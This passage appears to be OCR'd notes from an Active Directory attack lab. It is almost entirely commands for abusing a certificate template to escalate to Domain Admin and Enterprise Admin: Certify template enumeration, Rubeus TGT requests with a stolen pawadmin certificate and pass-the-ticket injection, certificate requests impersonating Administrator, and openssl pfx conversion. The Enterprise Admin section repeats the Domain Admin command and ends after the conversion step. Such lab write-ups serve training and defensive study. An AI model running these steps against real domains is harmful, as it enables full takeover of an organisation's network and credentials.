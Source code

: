 

Note that this does not show up when we enumerate vulnerable
templates in Certify. Use:

```
Certify.exe find
Certify.exe find /enrolleeSuppliesSubject
```

We have the certificate of pawadmin that we extracted from us-jump.

Use the certificate to request a TGT for pawadmin and inject it:

```
C:\AD\Tools\Rubeus.exe asktgt /user:pawadmin
/certificate:C:\AD\Tools\pawadmin.pfx
/password:SecretPass@123 /nowrap /ptt
```

Request a certificate for DA!

```
C:\AD\Tools\Certify.exe request /ca:Techcorp-
DC.techcorp.local\TECHCORP-DC-CA
/template:ForAdminsofPrivilegedAccessWorkstations
/altname:Administrator
```

Convert from cert.pem to pfx:

```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -
keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export
-out C:\AD\Tools\DA.pfx
```

Request DA TGT and inject it:

```
C:\AD\Tools\Rubeus.exe asktgt /user:Administrator
/certificate:C:\AD\Tools\DA.pfx /password:SecretPass@123 /nowrap
/ptt
```

Request a certificate for EA!

```
C:\AD\Tools\Certify.exe request /ca:Techcorp-
DC.techcorp.local\TECHCORP-DC-CA
/template:ForAdminsofPrivilegedAccessWorkstations
/altname:Administrator
```

Convert from cert.pem to pfx:

```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -
keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export
-out C:\AD\Tools\EA.pfx
```

